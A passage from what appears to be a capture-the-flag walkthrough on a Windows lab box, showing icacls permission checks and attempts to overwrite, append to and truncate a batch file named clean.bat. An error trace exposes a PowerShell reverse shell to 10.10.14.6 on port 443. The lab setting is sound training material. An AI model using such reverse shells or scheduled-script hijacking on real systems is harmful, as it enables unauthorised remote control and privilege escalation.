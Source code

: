     PS C:\users\decoder> ls clean.bat 

        Directory: C:\users\decoder

    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        08/05/2018     23:54         77 clean.bat   



`icacls` shows it more cleanly:



    PS C:\users\decoder> icacls clean.bat
    clean.bat Everyone:(M)
              NT AUTHORITY\SYSTEM:(I)(F)
              FIGHTER\decoder:(I)(F)
              BUILTIN\Administrators:(I)(F)



That means I can't just overwrite it (this shell doesn't return errors,
but it doesn't work):



    PS C:\users\decoder> echo "ping 10.10.14.6" > clean.bat
    Invoke-PowerShellTcp : Access to the path 'C:\users\decoder\clean.bat' is 
    denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp



But I can append to it:



    PS C:\users\decoder> echo "ping 10.10.14.6" >> clean.bat
    PS C:\users\decoder> cat clean.bat 
    @echo off 
    del /q /s c:\users\decoder\appdata\local\TEMP\*.tmp 
    exit 
      
    ping 10.10.14.6



Still, even if that is being run, with the `exit`, nothing I add will be
run.

#### Truncate

I can't actually copy another file on top of the existing file, but for
some reason, in `cmd`, I can copy `NUL` onto a file and it handles it
like an append:
